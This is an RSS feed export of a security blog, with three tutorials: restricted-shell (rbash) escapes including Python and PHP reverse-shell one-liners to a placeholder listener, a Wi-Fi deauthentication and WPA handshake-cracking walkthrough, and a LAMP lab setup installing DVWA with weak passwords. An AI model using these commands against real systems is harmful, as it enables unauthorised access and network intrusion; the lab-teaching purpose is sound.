

<?xml version="1.0" encoding="UTF-8"?><rss version="2.0"
	xmlns:content="http://purl.org/rss/1.0/modules/content/"
	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
	xmlns:dc="http://purl.org/dc/elements/1.1/"
	xmlns:atom="http://www.w3.org/2005/Atom"
	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
	>

<channel>
	<title>julisunkan</title>
	<atom:link href="" rel="self" type="application/rss+xml" />
	<link>../../../index.html</link>
	<description></description>
	<lastBuildDate>Sun, 29 Dec 2024 13:07:35 +0000</lastBuildDate>
	<language>en-US</language>
	<sy:updatePeriod>
	hourly	</sy:updatePeriod>
	<sy:updateFrequency>
	1	</sy:updateFrequency>
	<generator>https://wordpress.org/?v=6.7.1</generator>
	<item>
		<title>Multiple Methods to Bypass Restricted Shell</title>
		<link>../../../2024/12/29/multiple-methods-to-bypass-restricted-shell/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Sun, 29 Dec 2024 13:07:32 +0000</pubDate>
				<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=9157</guid>

					<description><![CDATA[We all know the Security Analyst-Hacker relationship is like “Tom &#38; Jerry” where one person takes measures to step-up the security layer and another person tries to circumvent it. The....]]></description>
										<content:encoded><![CDATA[
<p>We all know the Security Analyst-Hacker relationship is like “Tom &amp; Jerry” where one person takes measures to step-up the security layer and another person tries to circumvent it. The same situation that I slowly resolved while solving CTF challenges where always a new type of configuration error help me learn more about poor implementation of protection.</p>


<p>In this post, we will talk about “restricted shell or bash,” which is used in many CTF challenges and learn to bypass rbash by multiple methods.</p>


<p>Following CTF Challenges using rbash:</p>


<ul class="wp-block-list">
<li><strong><a href="https://www.hackingarticles.in/happycorp1-vulnhub-walkthrough/">Happycorp:1 Vulnhub Walkthrough</a></strong></li>


<li><strong><a href="https://www.hackingarticles.in/development-vulnhub-walkthrough/">Development: Vulnhub Walkthrough</a></strong></li>
</ul>


<h3 class="wp-block-heading"><strong>Table of Content</strong></h3>


<ul class="wp-block-list">
<li>Restricted shell</li>


<li>Restrictions with in rbash</li>


<li>Pros of a restricted shell</li>


<li>Cons of a restricted shell</li>


<li>Multiple methods to bypass rbash</li>
</ul>


<h3 class="wp-block-heading"><strong>Restricted Shell: rbash</strong></h3>


<p>A restricted shell is used to set up an environment more controlled than the standard shell which means If bash is started with the name rbash, or the -r option is supplied at invocation, the shell becomes restricted.&nbsp;</p>


<h3 class="wp-block-heading">Restrictions with in rbash</h3>


<p>It behaves identically to bash with the exception that the following are disallowed or not performed:</p>


<ul class="wp-block-list">
<li>cd command (Change Directory)</li>


<li>cd command (Change Directory)</li>


<li>PATH (setting/ unsetting)</li>


<li>ENV aka BASH_ENV (Environment Setting/ unsetting)</li>


<li>Importing Function</li>


<li>Specifying file name containing argument ‘/’</li>


<li>Specifying file name containing argument ‘-‘</li>


<li>Redirecting output using ‘>‘, ‘>>‘, ‘>|‘, ‘&lt;>‘, ‘>&amp;‘, ‘&amp;>‘</li>


<li>turning off restriction using ‘set +r‘ or ‘set +o‘</li>
</ul>


<h3 class="wp-block-heading">Pros of Restricted Shell</h3>


<ul class="wp-block-list">
<li>Rbash is often used in combination with a chroot jail in an additional attempt to restrict access to the entire process.</li>
</ul>


<h3 class="wp-block-heading">Cons of Restricted Shell</h3>


<ul class="wp-block-list">
<li>When a shell script command is executed, rbash cuts off any constraints in the spawned shell to execute the code.</li>


<li>Inadequate to allow fully untrusted code to be executed.</li>
</ul>


<h3 class="wp-block-heading"><strong>Enable restricted shell for a user</strong></h3>


<p>As said above the rbash will control the access of bash shell for a user and allow to execute the trusted command only which means the login user can run some selected command only. In order to control the user bash command, execute or enable the restricted shell for any user to follow the below steps:</p>


<ol class="wp-block-list">
<li>Create a local user “ignite”</li>


<li>Set password</li>


<li>Set usermod to enable rbash for a local user.</li>


<li>Ensure accessible shell for the user with the help of /etc/passwd.</li>
</ol>


<pre class="wp-block-preformatted">adduser ignite
usermod -s /bin/rbash ignite</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Method to Bypass rbash</strong></h3>


<ol class="wp-block-list">
<li><strong>Bypass rbash using Editors</strong></li>
</ol>


<ul class="wp-block-list">
<li>Vi-editors</li>


<li>Ed-editors</li>
</ul>


<ol start="2" class="wp-block-list">
<li><strong>Bypass rbash using One liner</strong></li>
</ol>


<ul class="wp-block-list">
<li>Python</li>


<li>Perl</li>


<li>Awk</li>
</ul>


<ol start="3" class="wp-block-list">
<li><strong>Bypass rbash through Reverse Shell</strong></li>


<li><strong>Bypass rbash using System binaries</strong></li>
</ol>


<ul class="wp-block-list">
<li>More</li>


<li>Less</li>


<li>Man</li>
</ul>


<ol start="5" class="wp-block-list">
<li><strong>Bypass rbash using Expect</strong></li>


<li><strong>Bypass rbash through SSH</strong></li>
</ol>


<h3 class="wp-block-heading"><strong>Bypass rbash using Editors</strong></h3>


<p>Now suppose you have accessed the host machine as a local user and found the logged user is part of rbash shell thus you are unable to run some system commands, such as: cd (change directory) because due to rbash it is restricted.</p>


<p><em>Now the question is: Then what will you do in such a situation?&nbsp;</em></p>


<p><em>And the answer is: Use “Editors Programs” to bypass the restricted mode.&nbsp;</em></p>


<pre class="wp-block-preformatted">ssh ignite@192.168.1.103
cd /etc</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong><u>1<sup>st</sup>&nbsp;method – VI Editor</u></strong></h3>


<p>So you can use the VI editor and this will be in the edit mode where you need to run the following command to open the “sh: Bourne shell” instead of rbash.</p>


<pre class="wp-block-preformatted">vi
:set shell=/bin/sh</pre>


<figure class="wp-block-image"></figure>


<pre class="wp-block-preformatted">:shell</pre>


<figure class="wp-block-image"></figure>


<p>Now if you will try to access /etc directory then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">cd /etc
pwd
id
</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong><u>2<sup>nd</sup>&nbsp;method- ed-Editor</u></strong></h3>


<p>You can also go with ed-editor which very easy to use as this is same as cat program that will provide inline edit mode where you can use the following command to call “sh: Bourne shell”</p>


<pre class="wp-block-preformatted">ed
! '/bin/sh'</pre>


<figure class="wp-block-image"></figure>


<p>Now again if you will try to access /etc directory then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">pwd
cd /etc
pwd</pre>


<p>There many more editors such as pico or nano which you should by yourself to bypass rbash environment.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Bypass rbash using One liner</strong></h3>


<h3 class="wp-block-heading"><strong><u>1<sup>st</sup>&nbsp;Method Python</u></strong></h3>


<p>You can also choose python following command as a one-liner to import “sh: Bourne shell” and spawn the proper sh shell instead of rbash as shown below where we are able to access the /etc directory without any restriction.</p>


<pre class="wp-block-preformatted">python -c 'import os; os.system("/bin/sh");'
python3 -c 'import os; os.system("/bin/sh");'</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong><u>2<sup>st</sup>&nbsp;Method Perl</u></strong></h3>


<p>Similarly, you can also choose Perl following command as a one-liner to import “sh: Bourne shell” and spawn the proper sh shell instead of rbash as shown below where we are able to access the /etc directory without any restriction.</p>


<pre class="wp-block-preformatted">perl -e 'system("/bin/sh");'</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong><u>3<sup>rd</sup>&nbsp;Method- Awk</u></strong></h3>


<p>Similarly, you can also choose awk following command as a one-liner to import “sh: Bourne shell” and spawn the proper sh shell instead of rbash as shown below where we are able to access the /etc directory without any restriction.</p>


<pre class="wp-block-preformatted">awk 'BEGIN {system("/bin/sh")}'</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Bypass rbash through Reverse Shell</strong></h3>


<h3 class="wp-block-heading"><strong><u>1<sup>st</sup>-Method Python</u></strong></h3>


<p>You can also choose reverse shellcode to bypass rbash, here we have use python reverse shellcode (penetestmokey) and this will throw the “sh: Bourne shell” to the listen to machine (Kali Linux in our case) on the netcat which is listening over our Kali Linux.</p>


<pre class="wp-block-preformatted">nc -lvp 1234</pre>


<p>After running the listener we will be running the following command.</p>


<pre class="wp-block-preformatted">python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LISTENING IP",LISTENING PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>


<figure class="wp-block-image"></figure>


<p>Now if you will try to access /etc directory then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">id pwd
cd /etc
pwd</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong><u>2<sup>nd</sup>&nbsp;Method – PHP</u></strong></h3>


<p>Similarly, you can use PHP reverse shellcode which need to be executed on the host machine and reverse connection will be accessible on Listening IP.</p>


<pre class="wp-block-preformatted">php -r '$sock=fsockopen("LISTENING IP",LISTENING PORT);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'</pre>


<figure class="wp-block-image"></figure>


<p>Now if you will try to access /etc directory then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">id 
pwd
cd /etc
pwd</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Bypass rbash using System binaries</strong></h3>


<p>Very few people know this, that some system binaries program (such as less, more, head, tail, man and many more) are very useful to bypass restricted environment.</p>


<p>Consider a situation where you a log file named ignite.txt inside the current directory and you allow to only a few commands such as more or less to read the logs.</p>


<h3 class="wp-block-heading"><strong><u>1<sup>st</sup>Method-/bin/more</u></strong></h3>


<p>Take the privilege of /bin/more program to bypass the restricted environment by executing following command on the rbash shell</p>


<p>more ignite.txt</p>


<pre class="wp-block-preformatted">!'sh'</pre>


<p>Now if you will try to access /etc directory then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">id 
pwd
cd /etc
pwd</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong><u>2<sup>nd</sup>&nbsp;Method-/bin/less</u></strong></h3>


<p>Take the privilege of /bin/less program to bypass the restricted environment by executing following command on the rbash shell</p>


<pre class="wp-block-preformatted">less ignite.txt</pre>


<figure class="wp-block-image"></figure>


<pre class="wp-block-preformatted">!'sh'</pre>


<figure class="wp-block-image"></figure>


<p>Now if you will try to access /etc directory then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">id 
pwd
cd /etc
pwd</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong><u>3<sup>rd</sup>&nbsp;Method-/bin/man</u></strong></h3>


<p>Take the privilege of /bin/less program to bypass the restricted environment by executing following command on the rbash shell</p>


<pre class="wp-block-preformatted">man man</pre>


<figure class="wp-block-image"></figure>


<pre class="wp-block-preformatted">!'sh'</pre>


<figure class="wp-block-image"></figure>


<p>Now if you will try to access /etc directory then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">id 
pwd
cd /etc
pwd</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Bypass rbash using Expect</strong></h3>


<p>Expect is a Unix program that “talks” to other interactive programs according to a script. Following the script, Expect knows what can be expected from a program and what the correct response should be.</p>


<p>Take the privilege of /bin/usr/expect the program to bypass the restricted environment by executing the following command on the rbash shell.</p>


<pre class="wp-block-preformatted">expect
spwan sh</pre>


<p>Now if you will try to access /etc directory once again then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">id 
pwd
cd /etc
pwd</pre>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Bypass rbash through SSH&nbsp;</strong></h3>


<p>If you know the ssh credential of the user who is part of rbash shell, then you can use the following command along ssh to break the jail and bypass the rbash by accessing proper bash shell.</p>


<pre class="wp-block-preformatted">ssh ignite@192.168.1.103 -t "bash --noprofile"</pre>


<p>Now if you will try to access /etc directory once again then you will saw that you are able to run&nbsp;<strong>cd &amp; pwd command</strong>&nbsp;as shown below.</p>


<pre class="wp-block-preformatted">id
pwd
cd /etc
pwd</pre>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Wireless Penetration Testing: Password Cracking</title>
		<link>../../../2024/12/29/wireless-penetration-testing-password-cracking/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Sun, 29 Dec 2024 13:02:58 +0000</pubDate>
				<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=9141</guid>

					<description><![CDATA[In this guide, we will be demonstrating the various methods that can be used for Password Cracking for performing Penetration Testing on Wireless Devices. Table of Content Introduction Brute-forcing is....]]></description>
										<content:encoded><![CDATA[
<p>In this guide, we will be demonstrating the various methods that can be used for Password Cracking for performing Penetration Testing on Wireless Devices.</p>


<h3 class="wp-block-heading">Table of Content</h3>


<ul class="wp-block-list">
<li><strong>Introduction</strong></li>


<li><strong>Simulation Mechanism</strong></li>


<li><strong>Pre-requisites</strong></li>


<li><strong>Initial Setup</strong></li>


<li><strong>Password Cracking</strong>
<ul class="wp-block-list">
<li>Aircrack-ng</li>


<li>cowpatty</li>


<li>Hashcat</li>


<li>John The Ripper</li>
</ul>
</li>
</ul>


<h3 class="wp-block-heading"><strong>Introduction</strong></h3>


<p>Brute-forcing is probably one of the most well-known techniques when it comes to gaining access. It’s a soft cushion to land upon when nothing seems to work anymore and rightfully so since the majority of network devices and applications lack the resilience to effectively detect and prevent brute-force attacks, it comes as an effective attack. In this article, we’ll be focusing on various Wi-Fi password brute-forcing tools to demonstrate how easy it can be for an attacker to guess your Wi-Fi password and&nbsp;<strong><em>the necessity to keep a complex password</em>.</strong></p>


<h3 class="wp-block-heading"><strong>Simulation Mechanism</strong></h3>


<p>Since we don’t want to be breaking into unauthorized devices, we’ll set up our own lab. And by the lab I mean we’ll use our own Wi-Fi access point, keep a password that we know, forget the device and attempt brute forcing using a dictionary containing that password.</p>


<h3 class="wp-block-heading"><strong>Pre-requisite</strong></h3>


<p>If you are using a virtual machine with Kali Linux, you would need an external Wi-Fi adapter because virtual machines by default are bridged or natted to the adapter you specify and won’t detect the WLAN interface. So, kindly research and buy an external adapter capable of going into monitor mode. And thereafter, go to your VM settings and connect that adapter to your virtual machine.</p>


<h3 class="wp-block-heading"><strong>Initial Setup</strong></h3>


<p>Let’s first set up the password of our access point here. Let’s say&nbsp;<strong>raaj:raj12345</strong></p>


<figure class="wp-block-image"></figure>


<p>We are good to go now and since the password has changed you obviously aren’t connected to the access point. Before going any further, let me throw out some theory now. In the previous article&nbsp;<strong><u><a href="https://www.hackingarticles.in/wireless-penetration-testing-fern/">here</a></u>&nbsp;</strong>we saw some background about&nbsp;<strong>monitor mode</strong>&nbsp;and&nbsp;<strong>Wlan</strong>&nbsp;interface. Let’s begin by putting our Wi-Fi adapter in monitor mode first.</p>


<p>Assuming that the Wi-Fi interface is Wlan0, the command is:</p>


<p>airmon-ng start wlan0</p>


<p>We are using the airmon module for this which comes with built-in Kali Linux. Next, we’ll have to scan for the access point (here, SSID=raaj). If you check your interfaces with the&nbsp;<strong>iwconfig&nbsp;</strong>command now you’d see your&nbsp;<strong>Wlan0&nbsp;</strong>has been transformed to&nbsp;<strong>Wlan0mon.&nbsp;</strong>Good for us. Now we scan access points around us</p>


<p>airodump-ng wlan0mon</p>


<p>This should start scanning for Access Points’ SSIDs and BSSIDs (Basic service set identifiers or simply a 48 bit MAC) around you. We see raaj in there too.</p>


<figure class="wp-block-image"></figure>


<p>Now let us understand this screen first. On the top left you see&nbsp;<strong>CH 3&nbsp;</strong>written. That is a Wi-Fi channel.</p>


<p><strong>Definition:&nbsp;</strong>In layman terms<strong>,&nbsp;</strong>a Wi-Fi channel is a path on which Wi-Fi packets travel to and from your device to the access point.</p>


<p>A 2.4 GHz Wi-Fi uses 11 channels and a 5 GHz Wi-Fi uses 45 channels. Each channel may vary or depending on what the vendor may use– higher or lower channel size is possible but generally is under 100 MHz in width. Your Wi-Fi access point uses a specified channel to transmit data. This channel to<strong>&nbsp;transmit</strong>&nbsp;can be manually configured in access points. A Wi-Fi adapter, however, just like your FM<strong>&nbsp;receiver</strong>&nbsp;can tune to listen to any channel.</p>


<p><strong>Analogy</strong>: Just like radio channels, a Wi-Fi adapter working on channel 3 (lets say a 60 MHz frequency) won’t listen to what’s happening on channel 6 (let’s say a 100 MHz frequency) until you tune it to listen to channel 6. But your Wi-Fi adapter/NIC is able to change its listening channel automatically. We’ll use airodump-ng to specify a channel later in this article.</p>


<p>Now that I have the target, I will capture a handshake.</p>


<p><strong>Handshake:&nbsp;</strong>A handshake in Wi-Fi is a mechanism by which an access point authenticates a client to onboard it and use its services. The cool thing to note is that in a handshake, the pairwise master key (PMK) is not transferred in this handshake so you can’t directly grab the PMK otherwise it would be a major vulnerability. Rather, this handshake file has something called a message integrity check (MIC) which is a combination of your Wi-Fi passphrase, nonce (random numbers), SSID and some other keys.</p>


<p><strong>Goal:&nbsp;</strong>Our goal is to capture this handshake file (.cap file), extract juicy information and brute force against the MIC to finally obtain a password. Since MIC is analogous to a hash in Wi-Fi, we need a dictionary to calculate hashes and compare against the value given in the handshake capture and confirm the password.</p>


<p>Since a handshake is happening on a channel, we can use the same channel to see what a handshake file looks like. But since this handshake only occurs when a user authenticates, we have to wait for a client to connect himself or deauthenticate the client and force him to connect&nbsp; (yeah, possible).</p>


<p>We saw in the above screenshot that “raaj” operates on channel 3 with a given BSSID. Let’s use airodump to capture a handshake file.</p>


<p>airodump-ng wlan0mon -c3 &#8211;bssid 18:45:93:69:A5:19 -w pwd</p>


<p>-c : channel</p>


<p>-w : name to save as</p>


<figure class="wp-block-image"></figure>


<p>Now, while airodump would wait for a handshake, we can’t just sit quietly. We have to force a user to reauthenticate by deauthenticating him. It can be done by aireplay-ng like this:</p>


<p>aireplay-ng &#8211;deauth 0 -a 18:45:93:69:A5:19 wlan0mon</p>


<figure class="wp-block-image"></figure>


<p>And it seemed to have worked like magic as you can see the client has re-authenticated and we have a handshake! The file is saved as pwd-01.cap</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Aircrack-ng</h3>


<p>For simplicity, I’ll rename it to “handshake.cap” and run aircrack-ng using a very long dictionary of millions of most common passwords and some passwords I created from the information about my target! Let’s call it dict.txt. And instead of millions let’s only add 5-10 passwords because we already know it and just have to demonstrate the attack!</p>


<p>So, the command is:</p>


<p>aircrack-ng handshake.cap -w dict.txt</p>


<figure class="wp-block-image"></figure>


<p>As evident below, we have the password thanks to aircrack.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>cowpatty</strong></h3>


<p>The same method can be done using another well-known tool called cowpatty. Link&nbsp;<strong><u><a href="https://github.com/joswr1ght/cowpatty">here</a></u></strong>. During my testing, the “<strong>handshake.cap</strong>” got renamed to “<strong>wifi.cap</strong>” so don’t get confused.</p>


<p>cowpatty -r wifi.cap -f dict.txt -s raaj</p>


<p>-s: SSID</p>


<p>It worked like a charm!</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Hashcat</strong></h3>


<p>For this next method, we would need to install hashcat first. It is the undisputed go-to tool when we talk about hash cracking. You can download it from&nbsp;<strong><u><a href="https://github.com/hashcat/hashcat">here</a></u></strong>. In Kali Linux, hashcat is preinstalled with utilities as well. We would use the “cap2hccapx” script for this method.</p>


<p><strong>hccapx:&nbsp;</strong>It is a custom format specifically developed for hashcat for usage on WPA and WPA2.</p>


<p><strong>cap2hccapx</strong>&nbsp;would convert the .cap file to .hccapx and hashcat would be able to bruteforce against it.</p>


<p>We can do this by:</p>


<p>cd /usr/share/hashcat-utils</p>


<p>./cap2hccapx.bin /root/wifi.cap /root/wifi.hccapx</p>


<figure class="wp-block-image"></figure>


<p>It is done. We now need to run hashcat to brute force this file:</p>


<p>hashcat -m 2500 wifi.hccapx dict.txt &#8211;show</p>


<p>-m : hash type. 2500= WPA/WPA2 hashes</p>


<figure class="wp-block-image"></figure>


<p>Quiet simple.</p>


<h3 class="wp-block-heading"><strong>John The Ripper</strong></h3>


<p>The same can be done using john the ripper too. We just need to convert it into a standard john hash file. This can be done using the&nbsp;<strong>hcxpcapng&nbsp;</strong>tool like:</p>


<p>hcxpcapngtool &#8211;john hash.john wifi.cap</p>


<figure class="wp-block-image"></figure>


<p>A gorgeous thing to observe here is the contents of the capture file! Juicy, isn’t it? Let’s use john to crack the hash now:</p>


<p>john &#8211;format=wpapsk &#8211;wordlist dict.txt hash.john</p>


<p>john &#8211;show hash.john</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Second Method</strong></h3>


<p>For all the pros who converted .cap to .hccapx, here’s the last method for you. You can use the hccap2john script pre-existing in your Kali to convert that .hccapx file to a John hash!</p>


<p>/usr/sbin/hccap2john wifi.hccpax &gt; wifihash</p>


<figure class="wp-block-image"></figure>


<p>And finally, use John to crack it</p>


<p>john &#8211;wordlist=/root/dict.txt &#8211;format=wpapsk wifihash</p>


<figure class="wp-block-image"></figure>


<p>We learnt various methods to brute force a captured handshake .cap file. The aim is to have multiple arrows in your quiver so if one technique fails you, you know how you can cross it over. Thanks for reading.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Web Server Lab Setup for Penetration Testing</title>
		<link>../../../2024/12/27/web-server-lab-setup-for-penetration-testing/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Fri, 27 Dec 2024 17:55:47 +0000</pubDate>
				<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=9096</guid>

					<description><![CDATA[In this guide, we will discuss how to set up our own web server step by step for creating penetration testing on Ubuntu 20. Ubuntu 20 has been updated with....]]></description>
										<content:encoded><![CDATA[
<p>In this guide, we will discuss how to set up our own web server step by step for creating penetration testing on Ubuntu 20. Ubuntu 20 has been updated with the new features.</p>


<h3 class="wp-block-heading"><strong>Table of Content</strong></h3>


<ul class="wp-block-list">
<li>Apache</li>


<li>PHP</li>


<li>MySQL</li>


<li>phpMyAdmin</li>
</ul>


<h3 class="wp-block-heading"><strong>Web Server Configuration</strong></h3>


<p>The Web server is a program that uses HTTP to serve users with files forming web pages in response to requests transmitted by their HTTP clients. Dedicated computers and devices can also be termed Web servers.</p>


<p>There are various types of software to be used as webservers and as per stats 2021 below is a list of the most popular web servers.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Install Apache</strong></h3>


<p>First, we will install the Apache. Apache is the most commonly used Web server on Linux Systems. Web servers are used to serve web pages requested by the client computers. So, let’s first install Apache in ubuntu by the following command-</p>


<p>apt install apache2</p>


<p>&nbsp;We have successfully installed apache2, by default Apache runs on port 80 for HTTP service.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Install PHP</strong></h3>


<p>PHP (recursive acronym for PHP: Hypertext Preprocessor) is a widely-used open source general-purpose scripting language that is especially suited for web development and can be embedded into HTML.</p>


<p>Now we will install PHP module for Apache and all its dependencies. For this run the following command in the terminal.</p>


<p>apt install php</p>


<p>As you can see, we are done with php installation with the command mentioned above.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Install MySQL&nbsp;Server</strong></h3>


<p>Now comes the next step which is the installation of MySQL server. MySQL is an open-source relational database management system. A relational database stores data in separate tables rather than putting all the data in one big storeroom. The SQL part of “MySQL” stands for “Structured Query Language”. SQL is the most common standardized language used to access databases.</p>


<p>It is very easy to install with the following commands, So, let’s go ahead step by step.</p>


<p>First, we will install MySQL server by the following command-</p>


<p>apt install mysql-server</p>


<figure class="wp-block-image"></figure>


<p>So, we are done with the installation.&nbsp;Now first we need to&nbsp;<strong>create a database user in Mysql</strong>&nbsp;and once it is created, then we need to&nbsp;<strong>set a password,&nbsp;</strong>then grant privilege to the database user. Execute the following commands to follow the instruction.</p>


<p>mysql -u root -p</p>


<p>CREATE USER &#8216;raj&#8217;@&#8217;localhost&#8217; IDENTIFIED BY &#8216;123&#8217;;</p>


<p>GRANT ALL ON *.* TO &#8216;raj&#8217;@&#8217;localhost&#8217;;</p>


<p>FLUSH PRIVILEGES;</p>


<p>Great we are done with MySQL server installation, by default it runs on port 3306, now restart MySQL service.</p>


<p>service mysql restart</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading"><strong>Install phpMyAdmin</strong></h3>


<p>Now the next step is the installation of a phpMyAdmin software which is written in PHP and is proposed to handle the administration of MYSQL over the WEB and it also supports a wide range of operations on MYSQL. First, we need to install phpMyAdmin by the following command-</p>


<p>apt install phpmyadmin</p>


<figure class="wp-block-image"></figure>


<p>After the installation, it will ask you to choose the webserver. Here you need to choose&nbsp;<strong>apache2&nbsp;</strong>which will automatically be configured to run phpmyadmin.</p>


<figure class="wp-block-image"></figure>


<p>Next, you will get a prompt that will open to configure a database for phpmyadmin with dbconfig-common. Here you need to click on<strong>&nbsp;yes</strong>&nbsp;and then enter.</p>


<figure class="wp-block-image"></figure>


<p>Again, you will get a prompt that will ask you to submit the password for phpMyAdmin, to register with the database server. Here we have given 123 as the password because it is essential to give it a password now.</p>


<figure class="wp-block-image"></figure>


<p>Now it would ask you to enter your password&nbsp;for&nbsp;confirmation, so just enter 123 which is my password.</p>


<figure class="wp-block-image"></figure>


<p><em>(git installation is optional)</em></p>


<p>Now our next step is to install git.&nbsp;&nbsp;<em><strong>Git</strong></em>&nbsp;is a free and open-source distributed version control system designed to handle everything from small to very large projects with speed and efficiency. To download git, the command is given below-</p>


<p>apt install git</p>


<figure class="wp-block-image"></figure>


<p>The next step is the configuration of phpmyadmin under apache, now we need to edit the apache2 conf file by adding two lines at the end of this file:</p>


<p>nano /etc/apache2/apache2.conf</p>


<figure class="wp-block-image"></figure>


<p>Now once you are inside this file, you need to add these two lines in apache2’s configuration file and then save this file.</p>


<p>#phpMyAdmin Configuration</p>


<p>Include /etc/phpmyadmin/apache.conf</p>


<p>At the last, as shown in the image below and then save it and after the editing; save the file and restart the apache2 service.</p>


<figure class="wp-block-image"></figure>


<p>service apache2 restart</p>


<p>Now open phpmyadmin in the browser as&nbsp;<strong>localhost/phpmyadmin</strong>&nbsp;as shown in the image below:</p>


<figure class="wp-block-image"></figure>


<p><strong>Conclusion:</strong>&nbsp;Web server installation get completed after installation of LAMP server (Linux Apache MySQL PHP|PERL|PYTHON), now the developer can configure web application on this server.</p>


<p>As you know that we have already shown you how to configure&nbsp;<a href="https://www.hackingarticles.in/web-server-lab-setup-for-penetration-testing/"><strong>web server</strong></a>. Now it’s time to move on to the next step which is the configuration of Web Application in Ubuntu 18. So today we will be learning how can we configure the 5 famous web applications (DVWA, bwapp, XVWA, SQLI, Mutillidae) in our web server for Web Penetration Testing. So, let’s do that.</p>


<h3 class="wp-block-heading"><strong>Table of Content</strong></h3>


<ul class="wp-block-list">
<li>Requirement</li>


<li>Web application</li>


<li>DVWA</li>


<li>bWAPP</li>


<li>XVWA</li>


<li>Sqli</li>


<li>Mutillidae</li>
</ul>


<p><strong>Requirement</strong>-Ubuntu 18.0</p>


<h3 class="wp-block-heading"><strong>Web Application</strong></h3>


<p>A web application is a computer program that utilizes web browsers and web technology to perform tasks over the Internet. Web apps can be built for a wider uses which can be used by anyone; from an enterprise to an entity for a variety of reasons. Frequently used Web applications can include webmail.</p>


<h3 class="wp-block-heading"><strong>DVWA</strong></h3>


<p>Let’s start You should download and configure this web application only within the html directory for all web applications in the browser through localhost. Go to your Ubuntu terminal and move inside html directory by running the following command and then download dvwa lab from the given link.</p>


<pre class="wp-block-preformatted">cd /var/www/html
git clone https://github.com/ethicalhack3r/DVWA</pre>


<figure class="wp-block-image"></figure>


<p>After the installation we will go inside the dvwa and there we will find a config folder, now we will move inside the config folder and there we will run the ls command to view all available folder, now, here you will see a config.inc.php.dist file. Now as you can see, we have moved&nbsp;<strong>config.inc.php.dist</strong>&nbsp;<strong>file to config.inc.php</strong></p>


<pre class="wp-block-preformatted">cd /dvwa/config
mv config.inc.php.dist config.inc.php</pre>


<p>Now open the config file using nano; where you will find that db user is root and db password is password.</p>


<figure class="wp-block-image"></figure>


